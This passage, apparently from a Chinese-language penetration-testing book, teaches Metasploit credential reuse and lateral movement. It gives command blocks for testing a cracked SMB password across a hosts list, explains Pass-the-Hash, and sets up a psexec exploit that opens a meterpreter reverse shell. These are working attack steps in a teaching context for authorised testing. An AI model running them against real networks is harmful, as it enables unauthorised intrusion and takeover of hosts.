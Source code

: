 ```py
msfconsole

```

如果你正在从命令行运行 Metasploit Professional，使用以下命令：

```py
msfpro

```

现在看看这个例子，在这个例子中，我们将尝试并查看我们之前破解的密码是否适用于网络中其余主机：

```py
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

`use`命令选择要使用的模块——在本例中是`smb_login`模块，用于验证**Server Message Block**（**SMB**）凭据。`SMBUser`设置选择要对其执行此攻击的用户名。`SMBPass`设置选择要在此模块中使用的密码。`SMBDomain`字段允许您设置组织的域。`run`命令执行辅助模块。在早些年，您必须使用`run`来执行辅助模块和利用模块。如今，这些实际上是可以互换的，除了需要`run`的后期利用模块，如[`www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/`](https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/)中所强调的。

### 提示

如果您使用本地帐户进行攻击，应将域设置为工作组。当攻击域帐户时，应将域设置为组织的实际域。

Metasploit Professional 是一种帮助优化渗透测试工作的工具，它具有 Web 图形用户界面（GUI）。Metasploit pro 提供了许多出色的功能，但如果您需要通过由防火墙保护的多个网络层进行枢纽，控制台是最佳选择。要了解如何执行自动枢纽，您可以在[`www.offensive-security.com/metasploit-unleashed/pivoting/`](https://www.offensive-security.com/metasploit-unleashed/pivoting/)找到详细信息。要了解如何执行手动枢纽，请参阅[`pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot`](https://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot)，其中涵盖了基于端口的枢纽、手动路由和 SOCKS 代理。

这种攻击方法非常常见；您找到凭据，确定凭据可能适用的服务，然后构建平面文件以针对主机。接下来，您引用这些平面文件来检查主机是否存在漏洞。一旦验证了这些主机的脆弱性，您就可以使用**Pass-the-Hash**（**PtH**）利用它们，使用**Process Execution**（**PSEXEC**）攻击（如果您有哈希）或标准凭证 PSEXEC，如下面的代码所示：

### 提示

PtH 是一种利用与系统在网络上进行身份验证的 Windows 本机弱点相关的攻击。与要求挑战/响应身份验证方法不同，哈希密码可以直接传递到主机。这意味着您不必破解**本地区域网络管理器**（**LM**）或**新技术 LM**（**NTLM**）哈希。许多 Metasploit 模块可以使用 SMB 服务的凭据或哈希。

```py
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass test
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```
